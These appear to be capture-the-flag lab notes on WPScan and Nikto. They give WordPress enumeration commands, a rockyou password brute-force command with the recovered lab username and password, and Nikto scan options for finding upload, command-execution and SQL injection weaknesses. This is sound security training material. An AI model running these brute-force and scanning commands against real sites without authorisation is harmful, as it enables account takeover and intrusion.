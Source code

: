 ```
- `twentynineteen` 
- version 2.0 (out of date)

Enumerate the site, what is the name of the plugin that WPScan has found?
- hint= You may have to use different aggressive profiles!
- ` wpscan --url http://wpscan.thm --enumerate p`
- `nextgen-gallery`

Enumerate the site, what username can WPScan find?
- ` wpscan --url http://wpscan.thm --enumerate u `
- ` Phreakazoid `

  
Construct a WPScan command to brute-force the site with this username, using the `rockyou` wordlist as the password list. What is the password to this user?

- hint= If this password attack takes longer than 5 minutes, you are using the wrong username / password list or URL.

- ` wpscan --url http://wpscan.thm --passwords /usr/share/wordlists/rockyou.txt --usernames Phreakazoid `
- `linkinpark`

## Nikto 

Nikto is capable of performing an assessment on all types of webservers (and isn't application-specific such as WPScan.). Nikto can be used to discover possible vulnerabilities including:

- Sensitive files
- Outdated servers and programs (i.e. [vulnerable web server installs](https://httpd.apache.org/security/vulnerabilities_24.html))
- Common server and software misconfigurations (Directory indexing, cgi scripts, x-ss protections)

comes pre-installed on  Kali Linux and Parrot
- ` sudo apt update && sudo apt install nikto `

basic scanning 
- get headers, files, directories
- `nikto -h vuln_ip`
- shows Apache Tomcat is used `/examples/servlets/index.html` 
- shows HTTP PUT and DELETE can be used

scan multiple ports
- `nikto -h x.x.x.x -p 80,8000,8080`

plugins
- ` --list-plugins` 
- ` nikto -h x.x.x.x -Plugin apacheuser | cgi | robots | dir_traversal`

Verbose `-Display 1 | 2 | E (errors only)`

Vuln searching
- ` -Tuning <value> `
- 
```
file upload        0  search for upload file on web server (rev shell)
misconfig file     2  search common files on web server (sensitive info)
info disclosure    3  gather info on web server/app or any info
injection          4  search for possible XSS or HTML injections
command exec       8  search for anything allows OS command execution
SQL injection      9  look for app urls vuln to SQLi
